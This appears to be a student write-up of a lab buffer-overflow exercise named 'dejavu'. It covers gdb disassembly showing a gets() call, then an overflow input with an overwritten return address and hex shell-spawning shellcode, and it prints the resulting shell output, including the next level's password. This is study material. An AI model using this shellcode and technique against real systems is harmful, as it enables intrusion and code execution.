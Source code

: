 # 1

The makefile is interesting and I think the professor tried his best to
make the program unsafe.
Just run gdb and see what happens:

```
invoke -d dejavu
break deja_vu
run
x/24i $pc
#- ---------------
=> 0xb7ffc4ab <deja_vu+6>:	sub    $0xc,%esp
   0xb7ffc4ae <deja_vu+9>:	lea    -0x10(%ebp),%eax
   0xb7ffc4b1 <deja_vu+12>:	push   %eax
   0xb7ffc4b2 <deja_vu+13>:	call   0xb7ffc75e <gets>
   0xb7ffc4b7 <deja_vu+18>:	add    $0x10,%esp
   0xb7ffc4ba <deja_vu+21>:	nop
   0xb7ffc4bb <deja_vu+22>:	leave  
   0xb7ffc4bc <deja_vu+23>:	ret    
   0xb7ffc4bd <main>:	lea    0x4(%esp),%ecx
   0xb7ffc4c1 <main+4>:	and    $0xfffffff0,%esp
   0xb7ffc4c4 <main+7>:	pushl  -0x4(%ecx)
   0xb7ffc4c7 <main+10>:	push   %ebp
   0xb7ffc4c8 <main+11>:	mov    %esp,%ebp
   0xb7ffc4ca <main+13>:	push   %ecx
   0xb7ffc4cb <main+14>:	sub    $0x4,%esp
   0xb7ffc4ce <main+17>:	call   0xb7ffc4a5 <deja_vu>
   0xb7ffc4d3 <main+22>:	mov    $0x0,%eax
   0xb7ffc4d8 <main+27>:	add    $0x4,%esp
   0xb7ffc4db <main+30>:	pop    %ecx
   0xb7ffc4dc <main+31>:	pop    %ebp
   0xb7ffc4dd <main+32>:	lea    -0x4(%ecx),%esp
   0xb7ffc4e0 <main+35>:	ret    
   0xb7ffc4e1 <dummy>:	ret    
   0xb7ffc4e2 <dummy1>:	ret    
```

Then we go to the call instruction.

```
break *0xb7ffc4b2
c
```

I saw that eax is 0xbffffab8. The return address should original be 0xb7ffc4d3 (in main), and I can easily find it at 0xbffffacc. So I should put payload at 0xbffffad0 and input `0123456789abcdef0123456789abcdef01234567 + bffffa40 + payload`, where paylaod is `6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a`. After fixing byte sequence problem with python, the input.txt is ready.

Now I can see 
```
pwnable:~$ ./exploit 
dumb-shell $ id
uid=1002(smith) gid=1001(vsftpd) groups=1001(vsftpd)
dumb-shell $ cat README
You have to let it all go. Fear, doubt, and disbelief. Free your mind.

Next username: smith
Next password: 37ZFBrAPm8
```
